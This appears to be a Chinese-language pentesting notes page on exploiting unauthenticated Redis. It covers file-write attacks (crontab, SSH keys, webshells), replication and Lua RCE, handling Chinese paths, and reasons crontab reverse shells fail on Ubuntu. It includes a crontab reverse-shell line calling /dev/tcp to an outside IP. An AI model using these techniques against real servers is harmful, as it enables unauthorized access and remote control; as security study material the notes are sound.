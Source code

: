 # 参考链接
[Redis漏洞利用 -- 全](https://mp.weixin.qq.com/s/ungjainqdPhA_dDOOMKn4Q)

[Redis RCE 文章 @浅蓝](https://paper.seebug.org/1169/)

[纸上得来终觉浅 -- Redis 个人总结](http://www.wangqingzheng.com/anquanke/84/255584.html)

# 漏洞原理
Redis因配置不当可以未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行flushall来清空所有数据。

攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。

如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器。

# 利用方式

- 写文件
  - windows
    - 开机自启动目录
    - [DLL劫持/文件覆写](http://r3start.net/index.php/2020/05/25/717)
    - [mof](https://xz.aliyun.com/t/7940#toc-6)
  - Linux
    - crontab
    - SSH key
  - Webshell

- 反序列化
  - java反序列化
    - jackson
    - fastjson
    - jdk/Hessian反序列化
    - [shiro反序列化](https://xz.aliyun.com/t/11198)
  - python反序列化
  - php反序列化

- 主从复制RCE

- Lua RCE

# 中文路径
某次遇到了web存在中文路径问题，如果直接`config set dir "中文"`的话会报错。

可以自己在本地搭建个Redis， 把Redis所有文件放到对应的中文文件夹里，经测试Linux下转义跟Windows不同，要根据靶机系统选择对应的环境。

## Windows
  - 使用`config get dir`查看配置文件路径，就是一个对中文编码后地址。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173911780-118172c6-177d-4ad6-b82c-feebe3cd7930.png"/></div>

  - 或者直接下使用python2的`repr`函数进行十六进制转义。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173911904-35d62fa0-2a7d-4848-9f28-6852ecfb8b0f.png"/></div>

## Linux
  - 使用`config get dir`查看配置文件路径，就是一个对中文编码后地址。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173912546-10e8b85e-1c30-4ed7-8c93-854009e5e1c5.png"/></div>

  - 或者直接下使用python2的`repr`函数进行十六进制转义。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/173914914-7c505662-aff5-4dc1-83d0-b0847779e80c.png"/></div>


# 面试题
- Redis计划任务反弹shell失败原因？
  - 目标机器不出网
  - Redis向计划任务文件里写内容出现乱码而导致语法错误，这些乱码来自redis的缓存数据，无法避免，centos会忽略乱码去执行格式正确的任务计划，而ubuntu不会忽略这些乱码，导致命令执行失败。
  - 权限不足，不是以root权限启动的redis
  - 容器化启动redis，没有计划任务文件
    - ![image](https://user-images.githubusercontent.com/84888757/163797414-38a0ef2b-aeab-4df5-8d6b-531c84e1f271.png)

  - 因为默认 redis 写文件后是 644 权限，但是 Ubuntu 要求执行定时任务文件 `/var/spool/cron/crontabs/<username>` 权限必须是 600 才会执行（即rw），否则会报错 `(root) INSECURE MODE (mode 0600 expected)`，而 Centos 的定时任务文件 `/var/spool/cron/<username>` 权限 644 也可以执行
  - 由于系统的不同，crontrab 定时文件位置也不同
    - Centos 的定时任务文件在 `/var/spool/cron/<username>`
    - Ubuntu 的定时任务文件在 `/var/spool/cron/crontabs/<username>`
  
  - 在ubuntu中 `/bin/sh` 这个软链接指向了 `dash`，而我们反弹 shell 使用的 shell 环境应该是 bash

    在centos中`/bin/sh` 这个软链接指向了 `bash`
    
    - ![image](https://user-images.githubusercontent.com/84888757/172678636-d1fb9f00-feab-4c1b-a2a1-ae3fcfb9aaf4.png)

    - ![image](https://user-images.githubusercontent.com/84888757/172678982-58ebf240-70f8-4402-ad4e-31d69fd6b18c.png)
    
    - 可通过修改软链接的方式成功反弹shell，但实战中未拿到服务器权限无法修改软链接，故可使用如下命令，不用修改链接指向，直接在 sh 下执行 bash -c
      - `*/1 * * * *  bash -c "bash -i  >&/dev/tcp/123.207.x.x/1234 0>&1"`
    
    - [参考链接](https://www.dazhuanlan.com/knight9001/topics/1061140)

